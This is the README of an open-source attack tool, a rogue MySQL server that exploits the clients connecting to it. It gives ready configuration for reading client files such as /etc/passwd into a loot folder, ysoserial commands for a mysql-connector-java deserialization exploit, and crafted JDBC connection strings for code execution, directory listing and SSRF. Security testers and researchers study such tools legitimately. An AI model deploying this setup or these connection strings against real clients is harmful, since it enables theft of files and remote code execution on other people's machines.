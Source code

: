 # Rogue Mysql Server

A rouge mysql server based on https://github.com/vitessio/vitess, support common mysql libraries for multiple programming languages.  
No more annoying compatible problems. You can get tested libraries in the following table.

| language | library                        | pass |
|----------|--------------------------------|------|
| go       | github.com/go-sql-driver/mysql | ✔️   |
| php      | mysqli, pdo                    | ✔️   |
| python   | pymysql                        | ✔️   |
| java     | mysql-connector-java           | ✔️   |
| native   | 10.4.13-MariaDB                | ✔️   |

If you find this tool helped you, please star 🌟 this repository.

## Feature

* Compatible with common mysql libraries
* Capability for reading binary files
* Automatic save the file
* Optional password verification if you want to use it as honeypot
* Read client's connection attributes, which may contain some useful information
* For mysql-connector-java, have the ability to exploit deserialize vulnerability when the jdbc connection string is controlled by user

## Usage

Generate the template config file, you can skip this step if you already have it.
```sh
./rogue_mysql_server -generate
```

Run rouge mysql server using config.yaml.
```sh
./rogue_mysql_server
```

Or if you want to specify a config file.
```sh
./rogue_mysql_server -config other_config.yaml
```

## Config

Example:
```yaml
host: 0.0.0.0
port: 3306
# Listening ip address and port.

version_string: "10.4.13-MariaDB-log"
# What version string client will get.

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
# File that waiting to read. Notice, it doesn't mean you can read all files by once (many mysql libraries don't support this feature).
# It actually will read one file in the list sequentially while the client send one query.

always_read: true
# If this option is set to true, the rouge server won't check the client's hint of whether it supports LOAD DATA LOCAL, and always try to read the file.
# Otherwise, the rouge server will respect the client's hint.

from_database_name: false
# If this option is set to true, the rogue server will get the filename from the database name provided by the client instead of `file_list`.
# E.g. `jdbc:mysql://localhost:3306/%2fetc%2fhosts?allowLoadLocalInfile=true`.
# The server will try to read `/etc/hosts` instead of the file in `file_list`.

max_file_size: 0
# Max size of the reading file (unit in bytes). Any content in the file that exceeds this size limit will be discarded.
# If the size is less than or equal to zero, meaning no limit on size.

auth: false
users:
  - root: root
  - root: password
# If set auth to `false`, the server won't check the client's auth username and password.
# Otherwise, it must match one of `users`.

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
# See section `mysql-connector-java deserialize vulnerability exploit`
```

## mysql-connector-java deserialize vulnerability exploit

After version 8.0.20 and 5.1.49, this vulnerability has been fixed.  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

The related configuration of vulnerability exploit is as follows.
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

If `jdbc_exploit` is true, the server will automatically exploit the vulnerability if the client is mysql-connector-java. The `jdbc_exploit` will disable the function of file reading, meaning you can't read the client file and exploit deserialize vulnerability at the same time.
If `always_exploit` is true, the server won't check if the client is mysql-connector-java and always try to exploit deserialize vulnerability.
The `ysoserial_command` is the command that generates deserialize payload.

You can specify the payload that will be used by the parameter `connectionAttributes` in the jdbc connection string.  
The server will get the payload that key name equals the value of `t` in `connectionAttributes`. If not found, it will use first payload in `ysoserial_command` list.

For example:    
Exploit this vulnerability in version 8.x with payload cc7. The connection string is `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

Be aware that the server only exploits `com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`, you can refer to the table below:

| version  | jdbc connection string                                                                                                                                                                                   |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password     |
| 6.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password |
| >=5.1.11 | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password    |

Additionally, the mysql-connector-java support use URL (like file://, http://) as filename, to achieve listing directory or SSRF, but you need set `allowLoadLocalInfile` to true in connection string.  
You can check details in [here](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)  
E.g.
* Listing `/` directory, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`

## Ref

mysql-connector-java vulnerability exploit:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql protocol related:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
